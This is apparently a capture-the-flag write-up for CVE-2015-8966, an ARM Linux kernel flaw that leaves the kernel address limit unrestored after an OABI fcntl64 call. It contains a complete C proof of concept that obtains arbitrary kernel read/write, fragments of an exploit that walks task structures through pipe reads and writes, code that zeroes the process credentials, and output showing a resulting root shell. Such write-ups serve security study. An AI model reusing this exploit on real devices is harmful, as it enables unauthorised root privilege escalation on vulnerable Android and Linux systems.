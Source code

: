 # 1118daysober

## PoC

- https://github.com/ThomasKing2014/android-Vulnerability-PoC/blob/master/CVE-2015-8966/poc.c

```c
#define _GNU_SOURCE

#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/prctl.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <pthread.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <semaphore.h>
#include <sys/socket.h>
#include <sys/mman.h>
#include <signal.h>
#include <sys/wait.h>
#include <sys/ioctl.h>
#include <sys/utsname.h>
#include <sys/ptrace.h>

int try_to_read_kernel(){
  int pipefd[2];
  ssize_t len;
  ssize_t try_bytes = 4;
  
  pipe(pipefd);
  len = write(pipefd[1], (void*)0xc0008000, try_bytes);
  
  close(pipefd[0]);
  close(pipefd[1]);
  
  return len == try_bytes;
}

__attribute__((naked)) long sys_oabi_fcntl64(unsigned int fd, unsigned int cmd, unsigned long arg){
	
	__asm __volatile (
	"swi	0x9000DD\n"
	"mov	pc, lr\n"
	:   
	:
	:
	);
}

#define F_OFD_GETLK	36
#define F_OFD_SETLK	37
#define F_OFD_SETLKW 38


int main(int argc, char const *argv[]){
	int fd = open("/proc/cpuinfo", O_RDONLY);
	struct flock *map_base = 0;

	if(fd == -1){
		perror("open");
		return -1;
	}
	map_base = (struct flock *)mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	if(map_base == (void*)-1){
		perror("mmap");
		goto _done;
	}
	printf("map_base %p\n", map_base);
	memset(map_base, 0, 0x1000);
	map_base->l_start = SEEK_SET;
	if(sys_oabi_fcntl64(fd, F_OFD_GETLK, (long)map_base)){
		perror("sys_oabi_fcntl64");
	}
	// Arbitrary kernel read/write test
	if(try_to_read_kernel()){
		printf("pwnned !\n");
	}
	munmap(map_base, 0x1000);
_done:
	close(fd);
	return 0;
}
```

## Vuln

- kernel doesn't restore to user_ds. So, we can write any data at any kernel address.
- so that I can't force to restore user_ds.
- detail: https://thomasking2014.com/2016/12/05/CVE-2015-8966.html

## Exploit

- I use read data with o/r/w syscall. It doesn't use user space address, so kernel was not crashed.

```c
int junofd = open("./tmp", O_WRONLY);
write(junofd, f_task, 4);
close(junofd);

int junofd2 = open("./tmp_cred", O_WRONLY);
write(junofd, f_task+400-4, 4);
close(junofd);
```

- save task_structure's next ptr to ./tmp and task's cred ptr to ./tmp_cred
- run until comm equals to `sh`.

```c
write(pipefd[1], cred+0x30, 4);
read(pipefd[0], cred+4, 4);
write(pipefd[1], cred+0x30, 4);
read(pipefd[0], cred+8, 4);
write(pipefd[1], cred+0x30, 4);
read(pipefd[0], cred+12, 4);
write(pipefd[1], cred+0x30, 4);
read(pipefd[0], cred+16, 4);
write(pipefd[1], cred+0x30, 4);
read(pipefd[0], cred+20, 4);
write(pipefd[1], cred+0x30, 4);
read(pipefd[0], cred+24, 4);
write(pipefd[1], cred+0x30, 4);
read(pipefd[0], cred+28, 4);
write(pipefd[1], cred+0x30, 4);
read(pipefd[0], cred+32, 4);
```

- finally overwrite cred value (0x3e8 to 0x0)
- I moved binary file with `base64` command.

```
~ $ ./w
[+] gogo cred haha
do
done!
/home/user # id
uid=0(root) gid=0 groups=1000
```

